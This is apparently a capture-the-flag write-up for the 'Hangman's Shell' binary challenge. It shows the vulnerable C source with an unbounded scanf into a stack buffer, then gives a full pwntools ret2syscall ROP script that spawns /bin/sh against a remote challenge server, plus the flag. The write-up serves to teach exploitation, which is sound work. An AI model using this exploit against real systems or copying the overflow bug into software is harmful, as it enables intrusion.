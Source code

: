 # Hangman's Shell

nc 167.99.118.184 31339

## Challenge

Running checksec to see protections and file to see what we are working with:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

```
└─$ file hangman 
hangman: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=74b74744a0250e39b282af55405d6febb1720b1c, for GNU/Linux 3.2.0, not stripped
```

Once again we find a statically linked binary here with partial relro. We also have an executable stack, which I chose to ignore but could fairly easily be exploited.

```
└─$ ./hangman
***IMPORTANT***
This program is still a shell, code is still in development
A full game of hangman is unavailable at this time

Welcome to hangman v0.1!
Please select one of the following options:
1. Play hangman with preloaded options
2. Enter unique word and play hangman
3. Exit
2
Please enter a word: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
The word is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa.
zsh: segmentation fault  ./hangman
```
Playing with the binary for a second we can already find a buffer overflow.

We are also given source code so lets peak at it.
```c
#include <stdio.h>
#include <stdlib.h>
int gameSelection(int num)
{
	printf("Please select one of the following options:\n");
        printf("1. Play hangman with preloaded options\n");
        printf("2. Enter unique word and play hangman\n");
        printf("3. Exit\n");

	scanf("%d", &num);

	return num;
}

void playHangman(char word[])
{
	// Clear screen
	// Implement hangman game play. 
	printf("The word is %s.\n", word);
}

int main()
{
	// Implement 2D array to have more than one word to guess
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
	char word[64] = "pwn";
	int num;

        printf("***IMPORTANT***\n");
        printf("This program is still a shell, code is still in development\n");
        printf("A full game of hangman is unavailable at this time\n\n");

	printf("Welcome to hangman v0.1!\n");
	num = gameSelection(num);
	if(num == 1)
	{
		playHangman(word);
	}
	else if(num == 2)
	{
		printf("Please enter a word: ");
		scanf("%s", &word);
		playHangman(word);
	}
	else if (num == 3)
	{
		printf("Thanks for playing!\n");
	}
	else
	{
		printf("Not a valid input.\n");
	}
	return 0;
}
```
Just browsing the code I can see our overflow:
```c
scanf("%s", &word);
```

So again, similar to the challenge secret runes, we can ret2syscall. We will find our appropriate gadgets and writable memory, and then just overflow into the return pointer and ROP.

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000001000 r-- /cyberopen/pwn/hangmans_shell/hangman
0x0000000000401000 0x00000000004b6000 0x00000000000b5000 r-x /cyberopen/pwn/hangmans_shell/hangman
0x00000000004b6000 0x00000000004e0000 0x000000000002a000 r-- /cyberopen/pwn/hangmans_shell/hangman
0x00000000004e1000 0x00000000004e8000 0x0000000000007000 rw- /cyberopen/pwn/hangmans_shell/hangman
0x00000000004e8000 0x00000000004ed000 0x0000000000005000 rw- [heap]
0x00007ffff7ff9000 0x00007ffff7ffd000 0x0000000000004000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000002000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000021000 rwx [stack]
gef➤  
```
We can see that any address `0x00000000004e1000 - 0x00000000004ed000` is writable. So now we will execute our ret2syscall.

I wont go into detail on the attack but if you wish to learn more here is a [resource](https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing/rop-syscall-execv).

```python
from pwn import *

elf = context.binary = ELF('./hangman')
#p = process('./hangman')
p = remote('167.99.118.184', 31339)

p.sendlineafter(b'Exit\n', b'2')

#Offset to rip
offset = 88

#Gadgets used in ROP
pop_rdi = 0x00000000004023af # pop rdi ; ret
pop_rsi = 0x000000000040a41e # pop rsi ; ret
pop_rax_rdx_rbx = 0x00000000004a3c4a # pop rax ; pop rdx ; pop rbx ; ret
syscall = 0x0000000000402164 # syscall
writable_mem = 0x00000000004e8000
mov_rax_rdx_pop_rbx = 0x00000000004aa468 # mov qword ptr [rax], rdx ; pop rbx ; ret
ret = 0x0000000000446fb9 + 1 # ret

rop = b''
rop += p64(ret)

#Assigning rax writable memory address and rdx the string we want
rop += p64(pop_rax_rdx_rbx)
rop += p64(writable_mem) + b"/bin/sh\x00" + p64(0)

#Moving the string into writable memory for access
rop += p64(mov_rax_rdx_pop_rbx)
rop += p64(0)

#Rax to 0x3b for execve, rdx to 0
rop += p64(pop_rax_rdx_rbx)
rop += p64(0x3b) + p64(0) + p64(0)

#rdi to our /bin/sh and rsi to 0
rop += p64(pop_rdi)
rop += p64(writable_mem)
rop += p64(pop_rsi)
rop += p64(0)
rop += p64(syscall)

#Sendoff
payload = b'A'*offset + rop
p.sendline(payload)
p.interactive()
```

Running this script sets the binary up to execute the syscall and pop a shell. 

Looking at the flag I believe the intended solution was to utilize shellcode.

## Flag

`SIVBGR{sh3llc0d3_t0_pwn_n0_g4m3}`